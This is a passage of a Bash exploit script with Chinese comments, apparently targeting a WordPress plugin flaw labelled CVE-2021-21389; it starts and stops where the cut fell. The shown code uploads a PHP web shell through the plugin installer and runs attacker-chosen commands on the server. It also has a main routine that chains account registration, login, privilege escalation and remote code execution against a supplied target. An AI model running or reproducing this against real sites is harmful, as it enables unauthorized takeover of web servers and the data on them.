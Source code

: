 ```bash
    fi

    _wp_nonce=$(echo "$response" | grep -oP 'name="_wpnonce" value="\K[^"]+')

    filename="cve202121389.php"
    php_payload="<?php system(\$_GET['cmd']); ?>"

    # 创建临时文件存储 payload
    payload_file=$(mktemp)
    echo "$php_payload" > "$payload_file"

    # 创建临时文件存储响应
    response_file=$(mktemp)

    curl -s -b "$cookies_file" -X POST "$url/wp-admin/update.php?action=upload-plugin" \
        -F "_wpnonce=$_wp_nonce" \
        -F "pluginzip=@$payload_file;filename=$filename" \
        -F "install-plugin-submit=Install Now" \
        -o "$response_file"

    rm "$payload_file"

    year=$(date +%Y)
    month=$(date +%m)

    echo "[+] 通过 $command 命令执行 RCE："
    link_shell="$url/wp-content/uploads/$year/$month/$filename?cmd=$command"
    response=$(curl -s -b "$cookies_file" "$link_shell")
    echo "$response"
    echo "[+] RCE 链接："
    echo "$link_shell"
    echo "[+] 完成！"

    rm "$response_file"
}

# 主函数
main() {
    if [ "$#" -ne 4 ]; then
        echo "[+] 用法: $0 <目标> <新用户名> <新密码> <命令>"
        echo "[+] 示例: $0 http://test.local test 1234 whoami"
        exit 1
    fi

    url=$1
    username=$2
    password=$3
    command=$4

    echo "[+] 尝试注册 ..."
    register "$url" "$username" "$password"

    echo "[+] 尝试登录 ..."
    cookies_file=$(login "$url" "$username" "$password")
    echo "[+] 登录成功！"

    x_wp_nonce=$(createNewgroup "$url" "$cookies_file" "$username")

    privilegeEscalation "$url" "$cookies_file" "$x_wp_nonce"

    rce "$url" "$cookies_file" "$command"

    # 清理 cookies 文件
```